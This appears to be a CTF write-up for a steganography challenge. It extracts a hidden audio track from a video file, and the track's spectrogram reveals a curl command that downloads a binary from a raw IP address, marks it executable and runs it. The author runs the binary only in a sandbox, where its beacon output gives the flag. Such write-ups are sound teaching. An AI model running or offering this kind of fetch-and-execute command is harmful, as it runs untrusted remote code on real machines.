

# CTF@CIT 2025

## Sorry, you're NOT a sigma!

> The lion says solve this challenge. You seem to have a good **track** record at doing so.
>
>  Author: boom
>
> [`lion.mp4`](lion.mp4)

Tags: _stego_

## Solution
The challenge comes with a video file featuring an lion roaring.. Anyways, there is a hint in the description, we are on a good track, so lets see if there are more audio tracks in the file than we are hearing while playback.

```bash
$ ffprobe lion.mp4
ffprobe version 6.1.1-1 Copyright (c) 2007-2023 the FFmpeg developers
#...
Input #0, mov,mp4,m4a,3gp,3g2,mj2, from 'lion.mp4':
  Metadata:
    major_brand     : isom
    minor_version   : 512
    compatible_brands: isomiso2avc1mp41
    encoder         : Lavf61.7.100
  Duration: 00:00:04.95, start: 0.000000, bitrate: 1732 kb/s
  Stream #0:0[0x1](und): Video: h264 (High) (avc1 / 0x31637661), yuv420p(progressive), 1280x720 [SAR 1:1 DAR 16:9], 1476 kb/s, 30 fps, 30 tbr, 15360 tbn (default)
    Metadata:
      handler_name    : VideoHandler
      vendor_id       : [0][0][0][0]
  Stream #0:1[0x2](und): Audio: aac (LC) (mp4a / 0x6134706D), 48000 Hz, stereo, fltp, 128 kb/s (default)
    Metadata:
      handler_name    : SoundHandler
      vendor_id       : [0][0][0][0]
  Stream #0:2[0x3](und): Audio: aac (LC) (mp4a / 0x6134706D), 22050 Hz, stereo, fltp, 121 kb/s
    Metadata:
      handler_name    : SoundHandler
      vendor_id       : [0][0][0][0]
```

Yup, there is one... Lets extract it and see what we get.

```bash
$ ffmpeg -i lion.mp4 -map 0:a:1 -vn -acodec libmp3lame -q:a 4 track1.mp3
# ...
Output #0, mp3, to 'track1.mp3':
  Metadata:
    major_brand     : isom
    minor_version   : 512
    compatible_brands: isomiso2avc1mp41
    TSSE            : Lavf60.16.100
  Stream #0:0(und): Audio: mp3, 22050 Hz, stereo, fltp
    Metadata:
      handler_name    : SoundHandler
      vendor_id       : [0][0][0][0]
      encoder         : Lavc60.31.102 libmp3lame
[out#0/mp3 @ 0x55a16b91df80] video:0kB audio:57kB subtitle:0kB other streams:0kB global headers:0kB muxing overhead: 0.570283%
size=      57kB time=00:00:04.91 bitrate=  94.8kbits/s speed= 122x
```

Playing back the track doesn't give any meaningful input, so we just open it in `Audacity` and find in the `spectogram` a message.



```bash
curl -s http://23.179.17.40:6969/roar -o /tmp/roar && chmod +x /tmp/roar && /tmp/roar
```

Of course we don't run this, but download the file for further inspection.

```bash
$ curl http://23.179.17.40:6969/roar -o roar
```

Running this in a safe environment gives us the flag.

```bash
$ ./roar
[*] Initializing beacon...
[*] Beacon attempt 1: phoning home...
[-] No response from C2 server.
[*] Beacon attempt 2: phoning home...
[-] No response from C2 server.
[*] Beacon attempt 3: phoning home...
[-] No response from C2 server.
[*] Beacon attempt 4: phoning home...
[-] No response from C2 server.
[*] Beacon attempt 5: phoning home...
[-] No response from C2 server.
[*] Beacon attempt 6: phoning home...
[-] No response from C2 server.
[*] Beacon attempt 7: phoning home...
[+] Beacon successfully reached C2 on attempt 7.
[*] Downloading payload...
[*] Decrypting response...
[+] Flag received:
CIT{wh3n_th3_l10n_sp34k5_y0u_l1st3n}
```

Flag `CIT{wh3n_th3_l10n_sp34k5_y0u_l1st3n}`